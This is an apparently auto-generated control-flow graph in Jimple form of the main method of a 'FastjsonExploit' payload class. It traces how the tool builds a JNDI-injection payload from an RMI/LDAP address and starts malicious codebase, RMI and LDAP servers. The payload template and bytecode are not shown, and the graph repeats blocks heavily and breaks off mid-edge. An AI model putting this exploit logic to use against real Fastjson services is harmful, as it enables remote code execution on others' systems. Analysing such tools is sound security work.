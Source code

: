 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 3 ]
r25 := @this: payloads.JdbcRowSetImpl4;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[1];
"
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i4 = lengthof r0;
if $i4 == 4 goto $r1 = r0[1];
"
    "Block 2:
[preds: 1 ] [succs: ]
$r22 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r22.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl4 [rmi/ldap address] [\\\"cmd:xxx|code:xxx.java\\\"]\");
return;
"
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[1];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = r0[2];
r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r5 = new util.JarFileReader;
"
    "Block 4:
[preds: 3 ] [succs: ]
staticinvoke <util.Alert: void printValidAddress()>();
return;
"
    "Block 5:
[preds: 3 ] [succs: 6 23 ]
$r5 = new util.JarFileReader;
specialinvoke $r5.<util.JarFileReader: void <init>()>();
r6 = $r5;
r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27);
$r10 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4);
<util.Common: byte[] byteCode> = $r11;
$r12 = new util.AddressParser;
specialinvoke $r12.<util.AddressParser: void <init>()>();
r13 = $r12;
virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2);
"
    "Block 6:
[preds: 5 ] [succs: 7 23 ]
r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>();
"
    "Block 7:
[preds: 6 ] [succs: 8 23 ]
$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>();
"
    "Block 8:
[preds: 7 ] [succs: 9 23 ]
r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1);
"
    "Block 9:
[preds: 8 ] [succs: 10 23 ]
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\");
"
    "Block 10:
[preds: 9 ] [succs: 11 23 ]
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2);
"
    "Block 11:
[preds: 10 ] [succs: 12 23 ]
$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"
    "Block 12:
[preds: 11 ] [succs: 13 23 ]
$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\");
"
    "Block 13:
[preds: 12 ] [succs: 14 17 23 ]
if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"
    "Block 14:
[preds: 13 ] [succs: 15 23 ]
$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"
    "Block 15:
[preds: 14 ] [succs: 16 23 ]
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21);
"
    "Block 16:
[preds: 15 ] [succs: 22 23 ]
goto [?= (branch)];
"
    "Block 17:
[preds: 13 ] [succs: 18 23 ]
$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"
    "Block 18:
[preds: 17 ] [succs: 19 23 ]
$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\");
"
    "Block 19:
[preds: 18 ] [succs: 20 22 23 ]
if $z2 == 0 goto (branch);
"
    "Block 20:
[preds: 19 ] [succs: 21 23 ]
$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
"
    "Block 21:
[preds: 20 ] [succs: 22 23 ]
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20);
"
    "Block 22:
[preds: 16 19 21 ] [succs: 24 ]
goto [?= $i3 = lengthof r0];
"
    "Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
"
    "Block 24:
[preds: 22 23 ] [succs: 25 27 ]
$i3 = lengthof r0;
if $i3 != 4 goto return;
"
    "Block 25:
[preds: 24 ] [succs: 26 27 ]
$r17 = r0[3];
$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z3 == 0 goto return;
"
    "Block 26:
[preds: 25 ] [succs: 27 ]
$r18 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27);
"
    "Block 27:
[preds: 24 25 26 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 3 ]
r25 := @this: payloads.JdbcRowSetImpl4;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[1];
"->"Block 1:
[preds: 0 ] [succs: 2 3 ]
$i4 = lengthof r0;
if $i4 == 4 goto $r1 = r0[1];
";
    "Block 0:
[preds: ] [succs: 1 3 ]
r25 := @this: payloads.JdbcRowSetImpl4;
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[1];
"->"Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[1];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = r0[2];
r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r5 = new util.JarFileReader;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i4 = lengthof r0;
if $i4 == 4 goto $r1 = r0[1];
"->"Block 2:
[preds: 1 ] [succs: ]
$r22 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r22.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl4 [rmi/ldap address] [\\\"cmd:xxx|code:xxx.java\\\"]\");
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i4 = lengthof r0;
if $i4 == 4 goto $r1 = r0[1];
"->"Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[1];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = r0[2];
r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r5 = new util.JarFileReader;
";
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[1];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = r0[2];
r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r5 = new util.JarFileReader;
"->"Block 4:
[preds: 3 ] [succs: ]
staticinvoke <util.Alert: void printValidAddress()>();
return;
";
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[1];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$r3 = r0[2];
r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r5 = new util.JarFileReader;
"->"Block 5:
[preds: 3 ] [succs: 6 23 ]
$r5 = new util.JarFileReader;
specialinvoke $r5.<util.JarFileReader: void <init>()>();
r6 = $r5;
r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27);
$r10 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4);
<util.Common: byte[] byteCode> = $r11;
$r12 = new util.AddressParser;
specialinvoke $r12.<util.AddressParser: void <init>()>();
r13 = $r12;
virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2);
";
    "Block 5:
[preds: 3 ] [succs: 6 23 ]
$r5 = new util.JarFileReader;
specialinvoke $r5.<util.JarFileReader: void <init>()>();
r6 = $r5;
r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27);
$r10 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4);
<util.Common: byte[] byteCode> = $r11;
$r12 = new util.AddressParser;
specialinvoke $r12.<util.AddressParser: void <init>()>();
r13 = $r12;
virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2);
"->"Block 6:
[preds: 5 ] [succs: 7 23 ]
r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>();
";
    "Block 5:
[preds: 3 ] [succs: 6 23 ]
$r5 = new util.JarFileReader;
specialinvoke $r5.<util.JarFileReader: void <init>()>();
r6 = $r5;
r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\");
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27);
$r10 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\");
$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4);
<util.Common: byte[] byteCode> = $r11;
$r12 = new util.AddressParser;
specialinvoke $r12.<util.AddressParser: void <init>()>();
r13 = $r12;
virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 6:
[preds: 5 ] [succs: 7 23 ]
r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>();
"->"Block 7:
[preds: 6 ] [succs: 8 23 ]
$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>();
";
    "Block 6:
[preds: 5 ] [succs: 7 23 ]
r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>();
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 7:
[preds: 6 ] [succs: 8 23 ]
$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>();
"->"Block 8:
[preds: 7 ] [succs: 9 23 ]
r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1);
";
    "Block 7:
[preds: 6 ] [succs: 8 23 ]
$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>();
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 8:
[preds: 7 ] [succs: 9 23 ]
r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1);
"->"Block 9:
[preds: 8 ] [succs: 10 23 ]
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\");
";
    "Block 8:
[preds: 7 ] [succs: 9 23 ]
r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 9:
[preds: 8 ] [succs: 10 23 ]
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\");
"->"Block 10:
[preds: 9 ] [succs: 11 23 ]
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2);
";
    "Block 9:
[preds: 8 ] [succs: 10 23 ]
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\");
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 10:
[preds: 9 ] [succs: 11 23 ]
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2);
"->"Block 11:
[preds: 10 ] [succs: 12 23 ]
$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
";
    "Block 10:
[preds: 9 ] [succs: 11 23 ]
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2);
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 11:
[preds: 10 ] [succs: 12 23 ]
$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 12:
[preds: 11 ] [succs: 13 23 ]
$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\");
";
    "Block 11:
[preds: 10 ] [succs: 12 23 ]
$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 12:
[preds: 11 ] [succs: 13 23 ]
$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\");
"->"Block 13:
[preds: 12 ] [succs: 14 17 23 ]
if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
";
    "Block 12:
[preds: 11 ] [succs: 13 23 ]
$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\");
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 13:
[preds: 12 ] [succs: 14 17 23 ]
if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 14:
[preds: 13 ] [succs: 15 23 ]
$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
";
    "Block 13:
[preds: 12 ] [succs: 14 17 23 ]
if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 17:
[preds: 13 ] [succs: 18 23 ]
$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
";
    "Block 13:
[preds: 12 ] [succs: 14 17 23 ]
if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>();
"->"Block 23:
[preds: 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ] [succs: 24 ]
$r23 := @caughtexception;
r29 = $r23;
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
$r24 = <java.lang.System: java.io.PrintStream out>;
